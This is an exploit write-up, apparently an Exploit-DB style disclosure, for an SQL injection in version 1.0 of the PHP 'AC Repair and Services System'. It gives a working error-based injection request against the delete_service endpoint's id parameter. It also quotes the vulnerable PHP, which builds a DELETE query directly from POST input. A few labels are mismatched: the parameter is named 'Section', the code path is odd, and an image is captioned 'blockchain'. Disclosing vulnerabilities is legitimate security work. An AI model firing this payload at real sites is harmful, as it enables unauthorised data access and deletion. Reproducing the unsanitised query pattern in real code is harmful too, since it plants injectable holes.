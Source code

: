 ### Exploit Title: AC Repair and Services System - SQL injections
### Date: 2023-05/11
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/16513/ac-repair-and-services-system-using-php-and-mysql-source-code-free-download.html
### Version: 1.0
### Tested on: macOs 13.3.1 (a) + phpstudy


# 1./classes/Master.php
/classes/Master.php SQL injection exists for parameter Section

### Sample request POC #1

```
POST /classes/Master.php?f=delete_service HTTP/1.1
Host: 10.211.55.3:8001
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
Content-Length: 105

id='+AND+GTID_SUBSET(CONCAT(0x717a6a7071%2C(SELECT+(ELT(8125%3D8125%2C1)))%2C0x71707a7071)%2C8125)--+jKyA
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/raw/main/imgs/1683791329107.jpg "AC Repair and Services System - SQL injections")

### Related Codes ./php-lfis/items/index.php
```
...
	function delete_service(){
		extract($_POST);
		$del = $this->conn->query("DELETE FROM `service_list` where id = '{$id}'");
		if($del){
			$resp['status'] = 'success';
			$this->settings->set_flashdata('success'," Service successfully deleted.");
		}else{
			$resp['status'] = 'failed';
			$resp['error'] = $this->conn->error;
		}
		return json_encode($resp);

	}
...
```
